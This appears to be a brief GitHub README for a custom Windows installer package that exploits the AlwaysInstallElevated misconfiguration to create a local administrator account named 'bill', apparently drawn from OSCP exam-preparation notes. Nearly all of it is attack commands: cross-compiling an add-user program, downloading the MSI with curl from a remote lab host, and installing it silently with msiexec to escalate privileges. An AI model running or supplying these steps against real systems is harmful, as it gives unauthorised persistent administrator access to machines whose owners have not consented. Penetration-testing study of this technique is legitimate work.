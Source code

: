 # Name
Custom AlwaysInstallElevated MSI to add local admin bill

## Usage
```
i686-w64-mingw32-gcc adduser.c -o adduser.exe

curl.exe http://192.168.45.218/always_install_elevated_add_bill.msi -o always_install_elevated_add_bill.msi

msiexec /quiet /qn /i always_install_elevated_add_bill.msi
```

## Source
https://n000b3r.gitbook.io/oscp-notes/privilege-escalation/privilege-escalation-windows#alwaysinstallelevated
